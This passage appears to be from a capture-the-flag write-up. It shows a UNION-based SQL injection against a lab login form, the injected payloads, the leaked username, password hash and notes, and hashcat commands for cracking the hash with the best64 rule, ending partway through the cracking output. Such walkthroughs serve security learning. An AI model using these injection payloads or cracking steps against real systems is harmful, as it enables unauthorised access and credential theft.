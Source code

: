 ``` 
user= Harry' UNION ALL SELECT 1,2,3,4 from users --&password=potter
```
This query gave a error response ```{"error":"The password for 1 is incorrect! 4"}``` which means first column must be usernames and forth column must be password.
Bruteforcing column names in burpsuite with query ```user=Fallen'+UNION+ALL+SELECT+1,2,3,+from+users--&password=hey```
and found some column names.
 
<p align="center"><img src ="./Screenshots/3.png" width ="340"></p>

Now trying sql queries with found column names.
```
user=Harry' UNION ALL SELECT name,2,3,password from users where rowid='2'--&password=potter
{"error":"The password for Harry Turner is incorrect! b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885"}

user=Harry' UNION ALL SELECT name,2,3,notes from users where rowid='2'--&password=potter
{"error":"The password for Harry Turner is incorrect! My linux username is my first name, and password uses best64"}
```
Now after trying every way to crack the hash with base 64 as hinted. I googled and found that hashcat has its own rule named - 'best64'.
Converting the hash with best64 and cracking it with spellnames.txt we have the password.
```bash
$ hashcat --stdout -r /usr/share/hashcat/rules/best64.rule spellnames.txt > passwd.txt
$ sudo hashcat -m1700 -O hash passwd.txt 
...
Dictionary cache built:
* Filename..: passwd.txt                                                                                                              
```